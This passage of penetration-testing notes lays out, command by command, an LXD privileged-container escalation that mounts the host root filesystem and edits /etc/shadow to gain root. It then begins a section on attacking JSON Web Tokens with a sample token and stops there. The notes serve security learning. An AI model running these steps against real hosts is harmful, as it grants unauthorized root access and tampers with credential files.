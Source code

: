       lxc image import [tar file] --alias alpine
      lxc image list #To list images

![image](https://github.com/user-attachments/assets/1fe4327a-67ca-4ef9-9e1f-0b0f634abb78)

- The next step is to run a privileged container, so it runs as root

      lxc init alpine juggernaut -c security.privileged=true
      lxc config device add juggernaut gimmeroot disk source=/ path=/mnt/root recursive=true
      lxc start juggernaut
      lxc list

![image](https://github.com/user-attachments/assets/d3ebab8c-5738-4817-8c9b-5a4bbcadce18)

- Then execute juggernaut

      lxc exec juggernaut sh

- Use `chroot /mnt/root` to change root filesystem since we've mounted it

![image](https://github.com/user-attachments/assets/f7c9426f-b04c-4539-bce9-2afa182b4ec8)

- Then,you can replace the root hash in `/etc/shadow` and login as root

---------------------

### REFERENCES

- [Juggernaut Sec](https://juggernaut-sec.com/lxd-container/)

----------------------

### Attacking JWTs [JSON Web Token]

- It is a standardized format of cryptographically signed json data between systems.It is used for authentication, session handling and access control mechanisms.

### JWT formats

- It consist of 3 headers,which includes `header`,`payload` and `signature`.The header consists of metadata of a token, the payload contains the user details or claim.It should be noted that this headers are base64 encoded e.g

- Typical Jwt:

      eyJraWQiOiI5MTM2ZGRiMy1jYjBhLTRhMTktYTA3ZS1lYWRmNWE0NGM4YjUiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTY0ODAzNzE2NCwibmFtZSI6IkNhcmxvcyBNb250b3lhIiwic3ViIjoiY2FybG9zIiwicm9sZSI6ImJsb2dfYXV0aG9yIiwiZW1haWwiOiJjYXJsb3NAY2FybG9zLW1vbnRveWEubmV0IiwiaWF0IjoxNTE2MjM5MDIyfQ.SYZBPIBg2CRjXAJ8vCER0LA_ENjII1JakvNQoP-Hw6GG1zfl4JyngsZReIfqRvIAEi5L4HV0q7_9qGhQZvy9ZdxEJbwTxRs_6Lb-fZTDpW6lKYNdMyjw45_alSCZ1fypsMWz_2mTpQzil0lOtps5Ei_z7mM7M8gCwe_AGpI53JxduQOaB5HkT5gVrv9cKu9CsW5MS6ZbqYXpGyOG5ehoxqm8DL5tFYaW3lB50ELxi0KsuTKEbD0t5BCl0aCR2MBJWAbN-xeLwEenaqBiwPVvKixYleeDQiBEIylFdNNIMviKRgXiYuAvMziVPbwSgkZVHeEdF5MQP1Oe2Spac-6IfA
  
- Header-:

      eyJraWQiOiI5MTM2ZGRiMy1jYjBhLTRhMTktYTA3ZS1lYWRmNWE0NGM4YjUiLCJhbGciOiJSUzI1NiJ9
